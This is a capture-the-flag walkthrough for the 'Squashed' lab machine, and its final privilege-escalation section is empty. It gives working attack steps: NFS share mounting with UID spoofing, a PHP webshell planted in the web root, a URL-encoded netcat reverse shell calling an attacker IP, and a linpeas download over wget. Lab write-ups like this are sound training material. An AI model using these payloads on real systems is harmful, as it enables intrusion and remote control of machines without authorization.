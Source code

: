 # Squashed (Easy)

<figure><img src="../../../.gitbook/assets/Squashed.png" alt=""><figcaption></figcaption></figure>

## Information Gathering

Scanned all TCP ports:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Built Better
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      36214/udp6  mountd
|   100005  1,2,3      37093/tcp6  mountd
|   100005  1,2,3      42899/tcp   mountd
|   100005  1,2,3      48117/udp   mountd
|   100021  1,3,4      39287/tcp6  nlockmgr
|   100021  1,3,4      43699/tcp   nlockmgr
|   100021  1,3,4      46570/udp   nlockmgr
|   100021  1,3,4      53611/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Enumerated UDP ports:

```
```

Notes:

* <mark style="color:yellow;">SSH</mark> is a possible entry point
* <mark style="color:yellow;">HTTP</mark> is a possible entry point (Apache 2.4.41)
* 2049 <mark style="color:yellow;">NFS</mark> -- Must enumerate for information disclosure etc.

## Enumeration

### Port 80 - HTTP (Apache 2.4.41)

* Added IP address of machine to /etc/hosts under squashed.htb

Directory Bruteforce (Dirsearch):

```
dirsearch -u http://squashed.htb
```

* <mark style="color:yellow;">No lucrative findings</mark>

### Port 2049 - NFS

List available NFS shares:

```
showmount -e squashed.htb

/home/ross    *
/var/www/html *
```

Mount the home directory:

```
sudo mount -t nfs squashed.htb:/home/ross /mnt
```

Enumerate mounted directory:

```
find /mnt -ls
```

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:yellow;">We can see that the contents of this directory are all 1001. This is the default permission set for a newly created user. It is 1001 because we do not have a user on our machine with those permissions. So what happens if we try to access it with a newly created user?</mark>

Create user:

```
adduser hacker
```

We can now see **hacker** instead of id 1001 because we have added **hacker** to the machine with the same permissions:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Switch user to **hacker**:&#x20;

```
su hacker -c bash
```

There is not anything of use in here let's mount the next directory.

We will need to unmount the current directory first:

```
sudo umount /mnt
sudo mount -t nfs squashed.htb:/var/www/html /mnt
```

After viewing the contents, we see a new id of 2017. We can set this with `usermod`:

```
sudo usermod -u 2017 hacker
```

Switch user:&#x20;

```
su hacker -c bash
```

We can now see that we have access to everything with our new id of 2017:

<figure><img src="../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

It appears that we are in the <mark style="color:yellow;">web root directory. Can we write to this?</mark>

```
echo "Hacker-here" > /mnt/hacker.html
```

<figure><img src="../../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

Yes, we can! Time to place a webshell in this directory and gain access to this machine!

## Exploitation

Since we found out that /var/www/html is writeable through NFS exploitation, we can place a webshell in here and gain access to the webserver!

Adding webshell into /var/www/html:

```
echo -e '<?php\n  system($_REQUEST['cmd']);\n?>' > /mnt/backdoor.php
```

Commands can be executed through the web browser via <mark style="color:yellow;">`?cmd=whoami`</mark>

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Let's grab a reverse shell through revshells and gain access to this machine

{% embed url="https://www.revshells.com/" %}

* nc mkfifo
* Be sure to URL encode it

This is what my URL encoded reverse shell looked like:

```
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.10%201337%20%3E%2Ftmp%2Ff
```

Fix your shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

{% embed url="https://brain2life.hashnode.dev/how-to-stabilize-a-simple-reverse-shell-to-a-fully-interactive-terminal" %}

If you are using a Terminal emulator such as Terminator, I found it easier to use the default terminal program for reverse shells.

<mark style="color:yellow;">The user.txt flag can be found in alex's home directory!</mark>

## Privilege Escalation

* Let's transfer and run linpeas

On Kali -- Start HTTP server for file transfer:

```
python3 -m http.server
```

On reverse shell -- wget for catching hosted file:

```
wget http://<kali_ip_here>:8000/linpeas_linux_amd64
```

Change permissions and execute file:

```
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```

* I was unable to find something of use

### Local enumeration

### PrivEsc vector

##

